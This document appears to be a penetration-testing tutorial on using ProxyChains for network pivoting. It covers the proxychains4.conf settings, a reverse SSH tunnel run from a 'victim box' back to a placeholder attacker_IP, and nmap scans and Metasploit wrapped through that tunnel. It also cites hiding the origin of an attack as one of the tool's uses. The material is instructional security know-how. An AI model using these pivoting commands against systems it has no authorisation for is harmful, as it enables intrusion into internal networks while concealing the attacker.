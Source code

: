 ### Understanding ProxyChains

#### Overview of ProxyChains

- **Definition**:
  - ProxyChains is a tool that directs network traffic of applications through proxy servers. It allows users to mask their actual IP address and route their traffic through one or multiple proxy servers.

#### How ProxyChains Works

- **Traffic Routing**:
  - ProxyChains reroutes the network requests of applications through a chain of proxy servers. This process is known as proxy chaining.
  - It can be configured to use different types of proxies, like SOCKS4, SOCKS5, or HTTP.

- **Uses in Cybersecurity**:
  - Primarily used for anonymity and privacy, it is also a valuable tool in penetration testing to obfuscate the origin of an attack.
  - Useful for bypassing network restrictions and testing network security from different geographical locations.

#### Advantages and Limitations

- **Advantages**:
  - Enhances privacy and security by hiding the user's IP address.
  - Allows testing from different network perspectives.

- **Limitations**:
  - The speed and reliability depend on the proxies used.
  - Not all applications support proxy chaining.

---
### Using ProxyChains with OpenSSH

#### Configuration for OpenSSH Versions Greater than 7.6

- **Note on OpenSSH Version**:
  - For versions lower than 7.6, the process differs as older versions do not support `-R` and require a two-way proxy with `-D`.

---

#### Setting Up ProxyChains on Attacker Box

- **Configuring ProxyChains**:
  - Edit the `/etc/proxychains4.conf` file.
  - Change settings:
    - Comment out `strictchain` and uncomment `dynamicchain`.
    - Uncomment `quietmode` and comment `proxydns`.
    - Modify the default config from `socks4 127.0.0.1 9080` to `socks5` on your chosen port.

- **Additional Note for RDP**:
  - Ensure `xclip` is installed for Remote Desktop Protocol (RDP) usage.

- **Verifying SSH Service**:
  - Ensure SSH service is running:
  
    ```shell
    sudo systemctl start ssh.service
    ```

---
#### Configuration on Victim Box

- **Establishing SSH Tunnel**:
  ```shell
  ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port
  ```
  - This requires an SSH client on the victim machine. Ensure SSH is started on the attacker box and set up a port forwarding rule for internet-based attacks.

---

#### Using ProxyChains for Scanning on Attacker Box

- **Running Nmap through ProxyChains**:
  - Examples:
    ```shell
    sudo proxychains nmap --top-ports=20 -sT -sV -sC -v --open -Pn IP_Address
    sudo proxychains nmap -iL scope -F -sT -v -Pn | tee fast_scan
    ```
  - ProxyChains can wrap almost any tool, including Metasploit, to force traffic through the SSH tunnel.

#### Wrapping Metasploit with ProxyChains

- **Metasploit via ProxyChains**:
  ```shell
  sudo proxychains msfconsole
  ```
  - This method bypasses the need to set up proxies within each Metasploit module, especially useful for modules that do not support proxy configurations.
